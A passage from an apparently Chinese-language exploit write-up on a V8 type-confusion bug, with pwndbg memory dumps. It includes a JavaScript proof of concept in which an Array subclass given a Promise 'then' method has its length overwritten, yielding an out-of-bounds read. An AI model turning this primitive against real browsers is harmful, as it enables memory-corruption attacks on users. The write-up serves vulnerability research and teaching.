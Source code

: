 ```cpp
 - non-extensible
 - back pointer: 0x1569080423b1 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x1569080421bd <DescriptorArray[0]>
 - prototype: 0x156908042231 <null>
 - constructor: 0x156908042231 <null>
 - dependent code: 0x1569080421b5 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
pwndbg> 
```

rcx就是我们自定义的对象，写入的也是我们猜测的0xc偏移的位置

### exploit

该类型混淆会导致在一个对象0xc的偏移写入一个promiseReactions（这是一个很大的值），这个0xc的偏移很容易就想到数组的length，试一试看看：

```javascript
class myArray extends Array{
    constructor(size){
        super(size);
        this.status = 0;
        this.then = Promise.prototype.then;
        
    }
}

var oob_arr = new myArray(0x10);

Promise.resolve(oob_arr);

setTimeout(()=>{
    %DebugPrint(oob_arr);
    %SystemBreak();
    console.log(oob_arr[0x11])
},100);
```

输出：

```cpp
0x38a508088c4d <JSArray[0]>
1
// ......................  //
pwndbg> dd 0x38a508088c4c
000038a508088c4c     08247209 0804222d 08088c85 08088dd9	<--- 长度已经被改变了
000038a508088c5c     00000008 082096f1 080422c5 080422c5
000038a508088c6c     080422c5 080422c5 080422c5 080422c5
000038a508088c7c     080422c5 080422c5 08042205 00000020
pwndbg> dd 0x38a508088c84 30
000038a508088c84     08042205 00000020 0804242d 0804242d
000038a508088c94     0804242d 0804242d 0804242d 0804242d
000038a508088ca4     0804242d 0804242d 0804242d 0804242d
000038a508088cb4     0804242d 0804242d 0804242d 0804242d
000038a508088cc4     0804242d 0804242d 08042205 00000002	<--- 0x11偏移
```

